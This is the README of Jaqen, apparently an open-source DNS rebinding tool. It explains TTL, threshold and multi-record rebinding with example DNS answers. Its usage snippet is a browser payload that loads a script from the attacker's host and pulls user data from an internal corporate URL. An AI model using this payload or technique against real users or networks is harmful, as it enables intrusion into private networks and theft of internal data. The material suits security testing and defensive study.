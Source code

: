 # Jaqen
Dead simple reliable [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding) for IPv4 and IPv6.

## Usage
Jaqen abstracts away the complex steps required to perform a DNS rebind and exposes a [HTML5 Fetch](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API) interface which transparently triggers a DNS rebind:
```html
<script type="text/javascript" src="http://$JAQEN_HOST/v1.js"></script>
<script type="text/javascript">
let r = new DNSRebind();
const target = "http://internal.corp.acme.com/users";
r.fetch(target).then((resp) => resp.json()).then((users) => {
	alert("Extracted the following users:\n" + users.join("\n"));
}, (e) => console.error(e));
</script>
```

## How it works
DNS Rebinding is notoriously unreliable and hard to debug. Jaqen offers a new approach by attempting multiple DNS Rebinding methods at the same time, selecting the first method to succeed then remembering that preferred method for future rebinds. 

This is accomplished by maintaining a pool of IP addresses which can be used when executing rebind attacks. When a request is received resources are selected from the pool based on current utilization and reserved for the duration of the attack. Because Jaqen intelligently allocates and releases these binds when they are no longer in use it can be run with extermely minimal hardware requirements. 

Depending on the target of the attack and runtime configuration Jaqen will select one or more of the following methods:

### Rebinding Methods: TTLRebind
A TTL rebind is the most basic DNS rebinding attack and works by relying on the TTL expiration of DNS records. When the first request is recieved a response is sent with a short TTL (1, 2, 4, 8, 16 seconds) pointing to the Jaqen host (ex. 203.0.113.1):
```
;; QUESTION SECTION:
;00000000-0000-0000-0000-000000000000.jaqen.local.			IN	A

;; ANSWER SECTION:
00000000-0000-0000-0000-000000000000.jaqen.local.		2	IN	A	203.0.113.1
```
After the first request is sent all future responses point to the target of the rebind (192.168.1.1) relying on the automatic TTL expiration on the client:
```
;; QUESTION SECTION:
;00000000-0000-0000-0000-000000000000.jaqen.local.			IN	A

;; ANSWER SECTION:
00000000-0000-0000-0000-000000000000.jaqen.local.		2	IN	A	192.168.1.1
```

### Rebinding Methods: ThresholdRebind
A Threshold rebind is a designed to target systems which trigger multiple DNS requests (common with server misconfigurations or when IDS is in use) or where unknown minimum TTLs are enforced. When a request is recieved a response is sent with a short TTL (1, 2, 4, 8, 16 seconds) pointing to the Jaqen host (ex. 203.0.113.1):
```
;; QUESTION SECTION:
;00000000-0000-0000-0000-000000000000.jaqen.local.			IN	A

;; ANSWER SECTION:
00000000-0000-0000-0000-000000000000.jaqen.local.		2	IN	A	203.0.113.1
```
All the requests are answered with the same Jaqen host response until a threshold of requests (1, 2, 3, 4, etc) is recieved after which all future responses point to the target of the rebind (192.168.1.1):
```
;; QUESTION SECTION:
;00000000-0000-0000-0000-000000000000.jaqen.local.			IN	A

;; ANSWER SECTION:
00000000-0000-0000-0000-000000000000.jaqen.local.		2	IN	A	192.168.1.1
``` 

### Rebinding Methods: MultiRecordRebind
A multiple record rebind is one of the most complex DNS rebinding attacks and is only selected when all other methods have failed. It can be expensive as each simultaneous request requires a unique public IP address on the Jaqen host and can be noisy as requests are not guaranteed to succeed relying on undefined behavior. When a request is recieved a response is sent with containing both the Jaqen host (ex. 203.0.113.1) and target of the rebind (192.168.1.1):
```
;; QUESTION SECTION:
;00000000-0000-0000-0000-000000000000.jaqen.local.			IN	A

;; ANSWER SECTION:
00000000-0000-0000-0000-000000000000.jaqen.local.		2	IN	A	203.0.113.1
00000000-0000-0000-0000-000000000000.jaqen.local.		2	IN	A	192.168.1.1
```
The rebind relies on the DNS answers remaining in the same order, when the browser makes the initial HTTP request a response is generated by Jaqen, then the client IP address is blacklisted at the TCP layer. All future requests fail falling through to the second DNS answer, the target of the rebind. This block remains in-place until the attack completes then the block is removed. In order to target users behind a NAT each multiple record rebind is allocated a unique public IP address.